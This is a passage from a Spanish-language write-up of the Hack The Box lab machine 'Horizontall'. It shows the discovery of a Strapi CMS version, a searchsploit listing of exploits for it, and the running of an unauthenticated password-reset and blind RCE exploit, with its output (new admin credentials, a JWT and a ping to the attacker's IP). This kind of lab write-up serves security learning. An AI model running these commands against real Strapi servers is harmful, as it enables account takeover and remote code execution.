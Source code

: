 ```
000034632:   200        0 L      1 W        90 Ch       "Layout"                                                                                                              
000070792:   200        0 L      1 W        144 Ch      "Init"    
```

Al acceder a `api-prod.horizontall.htb/admin/init` podemos ver la `versión` de `strapi` 

![](/assets/img/Horizontall/image_8.png)

## Intrusión

Ahora que tenemos la `versión` podemos usar `searchploit` para ver si existe algún `exploit` para esta versión de `strapi`, efectivamente existen varios exploits para esta versión

```
# searchsploit strapi 
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                                                   | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                                                 | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                                           | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                                             | nodejs/webapps/50716.rb
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Nos `descargamos` el `exploit` 

```
# searchsploit -m multiple/webapps/50239.py
```

`Ejecutamos` el `exploit`

```
# python3 50239.py http://api-prod.horizontall.htb 
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzE5NjcwMTYwLCJleHAiOjE3MjIyNjIxNjB9.ivf2fe4XqiwXdBhYFi1f0FtvhVuAQ2475eyuJCVhwUw


$> ping 10.10.16.8
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output 
```